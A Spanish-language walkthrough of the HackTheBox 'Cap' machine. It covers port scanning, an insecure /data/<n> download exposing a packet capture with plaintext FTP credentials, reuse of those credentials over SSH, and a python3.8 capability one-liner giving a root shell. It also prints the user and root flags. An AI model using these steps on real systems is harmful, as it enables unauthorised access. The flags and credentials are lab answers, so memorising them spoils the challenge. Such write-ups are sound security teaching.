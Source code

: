 ```yaml
---
icon: flag
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Cap HackTheBox (Easy)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-25 11:48 EDT
Nmap scan report for 10.10.10.245
Host is up (0.034s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.64 seconds
```

Veremos varios puertos interesantes, entre ellos el `FTP` y el `80`, si entramos en el puerto `80` veremos una especie de `dashboard` con informacion con lo que parece ser ya un usuario logueado llamado `nathan`.

Si nos vamos al boton `Security Snapshot ...` veremos que nos muestra el numero de paquetes capturados a nivel de red, etc... Pero si observamos la `URL` veremos lo siguiente:

```
URL = http://<IP>/data/7
```

Vemos que se cargan los archivos respecto con el numero de la `URL` ya que si le damos a `download` nos descarga dicho archivo, si probamos el numero `6`, nos descarga dicho numero, despues de un rato probando numeros veremos que el numero `0` es uno bastante interesante.

```
URL = http://<IP>/data/0
```

Info:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-25 180729.png" alt=""><figcaption></figcaption></figure>

Cuando le demos a `download` nos descarga el archivo de dicho numero, si lo analizamos el `.pacap` con `wireshark` veremos varios paquetes de `TCP` y sobre todo de `FTP` que es lo mas interesante, vamos a filtrarlo por `ftp`:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-25 180906.png" alt=""><figcaption></figcaption></figure>

Si vamos a la linea llamada `USER nathan ...`, le damos click derecho y a la opcion llamada `Follow -> TCP Stream` para seguir el seguimiento de peticiones a nivel de red y veremos esto:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-25 181048.png" alt=""><figcaption></figcaption></figure>

Vemos que registro la contraseña del usuario `nathan` del `FTP`, vamos a probar dichas credenciales por `FTP` obtenidas.

```
User: nathan
Pass: Buck3tH4TF0RM3!
```

## Escalate user nathan

Ahora en `FTP`:

```shell
ftp nathan@<IP>
```

Metemos como contraseña `Buck3tH4TF0RM3!`...

```
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||41069|)
150 Here comes the directory listing.
drwxr-xr-x    7 1001     1001         4096 Sep 25 15:56 .
drwxr-xr-x    3 0        0            4096 May 23  2021 ..
lrwxrwxrwx    1 0        0               9 May 15  2021 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
drwx------    2 1001     1001         4096 May 23  2021 .cache
drwx------    3 1001     1001         4096 Sep 25 14:23 .gnupg
drwxrwxr-x    3 1001     1001         4096 Sep 25 07:58 .local
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
-rw-------    1 1001     1001           17 Sep 25 10:22 .python_history
drwx------    2 1001     1001         4096 Sep 25 15:56 .ssh
lrwxrwxrwx    1 0        0               9 May 27  2021 .viminfo -> /dev/null
drwxr-xr-x    3 1001     1001         4096 Sep 25 07:46 snap
-r--------    1 1001     1001           33 Sep 25 04:02 user.txt
226 Directory send OK.
```

Veremos que ha funcionado y no solo es un `FTP`, si no que es la propia maquina entera, si probamos esto por `SSH` veremos lo siguiente:

### SSH

```shell
ssh nathan@<IP>
```

Metemos como contraseña `Buck3tH4TF0RM3!`...

```
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Sep 25 16:15:19 UTC 2025

  System load:           0.03
  Usage of /:            36.9% of 8.73GB
  Memory usage:          38%
  Swap usage:            0%
  Processes:             249
  Users logged in:       1
  IPv4 address for eth0: 10.10.10.245
  IPv6 address for eth0: dead:beef::250:56ff:fe94:90a5

  => There are 4 zombie processes.


63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Sep 25 15:54:44 2025 from 10.10.16.90
nathan@cap:~$ whoami
nathan
```

Veremos que ha funcionado tambien, por lo que vamos a leer la `flag` del usuario.

> user.txt

```
54da78dcbbae206dc6dd035bac579d10
```

## Escalate Privileges

Si ejecutamos `linpeas.sh` obteniendolo de la pagina:

URL = [Linpeas.sh Download](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)

Veremos lo siguiente:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-25 183003.png" alt=""><figcaption></figcaption></figure>

Vemos que hay una `capabilitie` de `python3.8`, por lo que nosotros podremos realizar lo siguiente:

```shell
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Info:

```
root@cap:/tmp# whoami
root
```

Con esto veremos que seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
9a311512457e9fa05c20863d21f73b5b
```
